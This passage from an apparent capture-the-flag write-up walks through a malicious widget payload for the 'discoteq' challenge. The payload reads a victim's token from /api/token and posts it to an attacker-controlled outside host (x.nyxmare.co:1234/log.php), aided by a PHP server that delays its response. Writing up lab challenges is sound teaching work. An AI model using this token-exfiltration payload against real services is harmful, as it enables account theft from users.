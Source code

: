 ```dart
              url: "@x.nyxmare.co:1234/",
              jsonKey: "something",
              dataKey: "something",
              onLoaded: [event "api_post" {path: "@x.nyxmare.co:1234/log.php", body: {from: "ApiMapper 2", ticket: data.user_token}}]
            ),
          ]
        ),  
      ]
    )
);
```

We're going to explain this. The first `ApiMapper` will make a GET request at `/api/token`. 

![](discoteq-18.png)

As we can see from the response of that endpoint, it has a `new_token` key with the value of the current token user. After that, the `ApiMapper` will set the `data` at widget (`user_token`) with the value of `jsonKey` from the response (`new_token`). And the `onLoaded` part is just doing nothing.

And for the 2nd `ApiMapper` will make a GET request to our host.

![](discoteq-19.png)

`index.php`
```php
<?php 
 
sleep(3); 
 
header('Access-Control-Allow-Origin: *'); 
header('Content-Type: application/json'); 
 
?> 
{"something":"nice"}
```

As we can see from the response of that endpoint, it is doing the same thing as the first. But the difference between the first is doing a `sleep` to give a time to the first `ApiMapper` finished to setting up `data` (We actually spend many hours at this part, and wondering why it rarely works. We also tried to spam bot and make hope it will work). So, after that, it will be an `onLoaded` event, where it's used for passing and sending the `data` widget to our log.

Ps. We actually tried to make only one `ApiMapper`, but for some reason, The `data` widget won't be updated during `onLoaded` 

¯\\\_(ツ)_/¯.

We already finished crafting the payload. The final step will be just to send a poll with our malicious widget.

![](discoteq-20.png)
